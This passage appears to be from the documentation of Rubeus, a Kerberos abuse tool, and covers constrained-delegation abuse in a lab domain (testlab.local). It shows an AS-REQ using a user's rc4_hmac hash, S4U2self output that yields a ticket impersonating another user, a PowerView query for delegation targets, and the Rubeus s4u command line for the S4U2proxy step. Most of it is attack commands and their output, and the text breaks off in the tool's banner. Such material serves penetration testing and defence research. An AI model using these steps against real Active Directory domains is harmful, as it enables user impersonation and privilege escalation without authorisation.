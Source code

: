     v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo...(snip)...


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo...(snip)...

That forwardable ticket can then be used as a `/tgs:Y` parameter (base64 blob or .kirbi file) to execute the S4U2proxy process. A valid **msds-allowedtodelegateto** value for the account must be supplied (`/msdsspn:X`). Say the **patsy@testlab.local** account looks like this:

    PS C:\> Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
    ldap/PRIMARY.testlab.local/testlab.local
    ldap/PRIMARY
    ldap/PRIMARY.testlab.local/TESTLAB
    ldap/PRIMARY/TESTLAB
    ldap/PRIMARY.testlab.local/DomainDnsZones.testlab.local
    ldap/PRIMARY.testlab.local/ForestDnsZones.testlab.local
    ldap/PRIMARY.testlab.local

Then the S4U2proxy abuse function (using the ticket from the previous S4U2self process) would be:

    C:\Rubeus>Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWoo..(snip).. /msdsspn:"ldap/PRIMARY.testlab.local" /tgs:doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
